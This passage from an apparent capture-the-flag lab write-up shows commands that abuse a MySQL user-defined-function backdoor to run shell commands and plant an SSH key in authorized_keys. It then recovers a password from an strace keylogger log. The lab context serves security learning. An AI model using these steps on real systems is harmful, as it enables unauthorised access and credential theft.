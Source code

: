 This hints that the library is malicious and created by the attacker for persistence.
By researching UDF, [this article](https://pure.security/simple-mysql-backdoor-using-user-defined-functions/) describes the process of creating such a function to act as a backdoor.

Using the information gathered, lets try to run code in the context of the _mysql_ user:
```
cmd=mysql -u root -pchangethis -e 'SELECT exec_cmd("id");'
```
```
exec_cmd("id")
uid=111(mysql) gid=113(mysql) groups=113(mysql)
```

Creating an SSH key with `ssh-keygen` on our local client and writing the contents of the public key into _.ssh/authorized_keys_:
```
cmd=mysql -u root -pchangethis -e 'SELECT exec_cmd("echo -n ssh-rsa AAAAB3NzaC1yc2EAAAADAQAB(...) > .ssh/authorized_keys");'

cmd=mysql -u root -pchangethis -e 'SELECT exec_cmd("cat .ssh/authorized_keys");'
```

After URL-encoding the command and sending the request, it is successfully written to the _authorized_keys_ file.
Connecting to the box via SSH with the user _mysql_:
```
ssh -i compromised.key mysql@10.10.10.207
```

## Privilege Escalation

In the home directory of the _mysql_ user _/var/lib/mysql_ is a suspicious file called _strace-log.dat_, which is the log from a `strace` command.
As this looks like another persistence mechanism from the attacker, [this article](https://www.securitynik.com/2014/04/the-poor-mans-keylogger-strace.html) describes how to use `strace` as a **Key Logger**.

Reading the file and searching for the system call that requests keyboard input:
```
cat strace-log.dat | grep 'read(0'
```
```
(...)
22102 03:11:06 read(0, "p", 1)          = 1
22102 03:11:06 read(0, "a", 1)          = 1
22102 03:11:06 read(0, "s", 1)          = 1
22102 03:11:06 read(0, "s", 1)          = 1
22102 03:11:06 read(0, "w", 1)          = 1
22102 03:11:06 read(0, "o", 1)          = 1
22102 03:11:06 read(0, "r", 1)          = 1
22102 03:11:06 read(0, "d", 1)          = 1
22102 03:11:06 read(0, "=", 1)          = 1
22102 03:11:06 read(0, "'", 1)          = 1
22102 03:11:06 read(0, "3", 1)          = 1
22102 03:11:06 read(0, "*", 1)          = 1
22102 03:11:06 read(0, "N", 1)          = 1
22102 03:11:06 read(0, "L", 1)          = 1
22102 03:11:06 read(0, "J", 1)          = 1
22102 03:11:06 read(0, "E", 1)          = 1
22102 03:11:06 read(0, "3", 1)          = 1
22102 03:11:06 read(0, "2", 1)          = 1
22102 03:11:06 read(0, "I", 1)          = 1
22102 03:11:06 read(0, "$", 1)          = 1
22102 03:11:06 read(0, "F", 1)          = 1
22102 03:11:06 read(0, "e", 1)          = 1
(...)
```
